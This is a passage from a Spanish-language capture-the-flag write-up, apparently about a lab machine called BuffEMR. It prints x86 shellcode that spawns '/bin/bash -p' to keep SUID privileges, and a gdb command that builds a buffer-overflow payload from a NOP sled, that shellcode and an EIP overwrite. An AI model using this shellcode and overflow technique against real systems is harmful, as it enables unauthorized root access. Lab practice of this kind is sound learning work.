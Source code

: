 ![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912003049.png>)
### Opción 1

Nuestro **shellcode** será el siguiente el cual se encargará de ejecutar una `/bin/bash -p`, pues si bien recordamos dicho binario tiene permisos SUID.

```bash
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
```

Ahora estaremos cargando nuestro **shellcode** en la basura/junk, es decir antes del **EIP**, además previamente introduciremos **NOPs (\\0x90)** para que nuestro **shellcode** se interprete correctamente, además observaremos la siguiente dirección que demos introducir en el **EIP**, pues es este el encargado de apuntar a la siguiente instrucción. 

```bash
r $(python -c 'print b"\x90"*479 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + b"B"*4')
```

